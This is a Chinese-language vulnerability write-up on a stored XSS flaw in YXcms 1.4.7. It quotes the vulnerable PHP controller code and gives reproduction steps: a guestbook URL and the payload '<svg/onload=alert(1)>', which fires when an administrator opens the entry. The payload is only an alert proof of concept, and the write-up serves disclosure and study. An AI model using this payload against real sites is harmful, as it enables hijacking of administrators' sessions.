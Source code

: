# YXcms 1.4.7 储存型xss

### 一、漏洞简介

### 二、漏洞影响

YXcms 1.4.7

### 三、复现过程

漏洞分析

前台的文件源码protected/apps/default/controller/columnController.php


```php
public function index()
{
    $ename=in($_GET['col']);
    if(empty($ename)) throw new Exception('栏目名不能为空~', 404);
    $sortinfo=model('sort')->find("ename='{$ename}'",'id,name,ename,path,url,type,deep,method,tplist,keywords,description,extendid');
    $path=$sortinfo['path'].','.$sortinfo['id'];
    $deep=$sortinfo['deep']+1;
    $this->col=$ename;
    switch ($sortinfo['type']) {
        case 1://文章
            $this->newslist($sortinfo,$path,$deep);
            break;
        case 2://图集
            $this->photolist($sortinfo,$path,$deep);
            break;
        case 3://单页
            $this->page($sortinfo,$path,$deep);
            break;
        case 4://应用

            break;
        case 5://自定义

            break;
        case 6://表单
            $this->extend($sortinfo,$path,$deep);
            break;
        default:
            throw new Exception('未知的栏目类型~', 404);
            break;
    }
}
```

后台的文件源码protected/apps/admin/controller/extendfieldController.php


```php
public function mesedit()
{
    $tableid=intval($_GET['tabid']);
    if(!$this->checkConPower('extend',$tableid)) $this->error('您没有权限管理此独立表内容~');
    $id=intval($_GET['id']);//信息id
    if(empty($tableid) || empty($id) ) $this->error('参数错误~');
    $tableinfo = model('extend')->select("id='{$tableid}' OR pid='{$tableid}'",'id,tableinfo,name,type,defvalue','pid,norder DESC');
    if(empty($tableinfo)) $this->error('自定义表不存在~');
    if (!$this->isPost()) {
       $info=model('extend')->Extfind($tableinfo[0]['tableinfo'],"id='{$id}'");
       $this->info=$info;
       $this->tableid=$tableid;
       $this->id=$id;
       $this->tableinfo=$tableinfo;
       $this->display();
    }else{
       for($i=1;$i<count($tableinfo);$i++){
        if(is_array($_POST[$tableinfo[$i]['tableinfo']]))
          $data[$tableinfo[$i]['tableinfo']]=implode(',',$_POST[$tableinfo[$i]['tableinfo']]);
        else
          $data[$tableinfo[$i]['tableinfo']]=html_in($_POST[$tableinfo[$i]['tableinfo']]);
       }
       if(model('extend')->Extup($tableinfo[0]['tableinfo'],"id='{$id}'",$data)) $this->success('修改成功~',url('extendfield/meslist',array('id'=>$tableid)));
       else $this->error('信息修改失败~');
     }
}
```

中间没什么过滤

#### 复现


```
http://url/index.php?r=default/column/index&col=guestbook
```

payload：


```
<svg/onload=alert(1)>
```

![](images/15896459948996.png)


然后登陆后台，查看审核

![](images/15896460063277.png)


点击编辑

![](images/15896460782481.jpg)
